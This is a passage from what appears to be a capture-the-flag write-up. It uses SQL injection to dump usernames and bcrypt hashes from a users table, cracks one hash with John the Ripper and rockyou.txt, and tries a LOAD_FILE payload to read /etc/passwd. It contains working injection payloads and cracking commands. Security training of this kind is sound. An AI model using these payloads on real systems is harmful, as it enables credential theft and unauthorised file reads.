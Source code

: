 The column names of the table `users` are as follows:

```
id
username
password
email
```

Fetching the `username` and `password` values like so:

`test" union select 1,username,password,4 FROM users #`

![26](screenshots/26.png)

Unfortunately, only `otis` is crackable with `rockyou.txt` and we already knew this password:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (otis)
```

Let's see what other users are on the host machine by reading `/etc/passwd`:

`test" union all select 1,2,LOAD_FILE('/etc/paswd'),4 #`
